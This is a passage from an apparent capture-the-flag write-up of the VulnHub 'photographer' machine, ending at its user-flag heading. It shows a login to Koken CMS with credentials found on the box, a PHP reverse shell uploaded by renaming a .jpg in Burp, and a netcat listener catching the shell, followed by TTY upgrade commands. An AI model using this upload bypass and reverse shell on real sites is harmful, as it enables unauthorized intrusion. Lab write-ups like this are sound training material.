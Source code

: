 Server running `Koken CMS` on port 8000. Koken CMS is a free website publishing system developed for photographers.
![koken](/assets/img/photographer/koken.png)

## Accessing Koken Admin Panel
`/admin` contain Sign In page.

![login](/assets/img/photographer/login.png)

Here I tried to log in with creds which we found in `mailsent.txt` and succeed.
```
email : daisa@photographer.com
pass  : babygirl
```
## Getting Shell
In Koken we can upload the images. So try to upload shell on the server. Using `Import Content` which is at the bottom right-hand side.
![import](/assets/img/photographer/import.png)
I saved php-reverse-shell.php with name rev.php.jpg on local machine.

Open Koken CMS Dashboard, upload `rev.php.jpg` using `Import Content` button and Intercep request in burp.

![upload](/assets/img/photographer/upload.png)

On burp, rename file with `rev.php` and sent the request. 

![burp1](/assets/img/photographer/burp1.png)
![burp2](/assets/img/photographer/burp2.png)


On Koken CMS Library, select you file and put the mouse on "Download File" to see where your file is hosted on server.
![link](/assets/img/photographer/link.png)
```
curl http://192.168.1.7:8000/storage/originals/43/80/rev.php
```

```
┌─[hitesh@parrot]─[~/boxes/vulnhub/photographer]
└──╼ $nc -nvlp 8888
listening on [any] 8888 ...
connect to [192.168.1.2] from (UNKNOWN) [192.168.1.7] 43852
Linux photographer 4.15.0-45-generic #48~16.04.1-Ubuntu SMP Tue Jan 29 18:03:48 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 01:49:04 up 33 min,  0 users,  load average: 1.13, 1.25, 2.22
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@photographer:/$ ^Z
[1]+  Stopped                 nc -nvlp 8888
┌─[✗]─[hitesh@parrot]─[~/boxes/vulnhub/photographer]
└──╼ $stty raw -echo
┌─[hitesh@parrot]─[~/boxes/vulnhub/photographer]
└──╼ $nc -nvlp 8888

www-data@photographer:/$ export TERM=xterm
www-data@photographer:/$ 
```
# User Flag
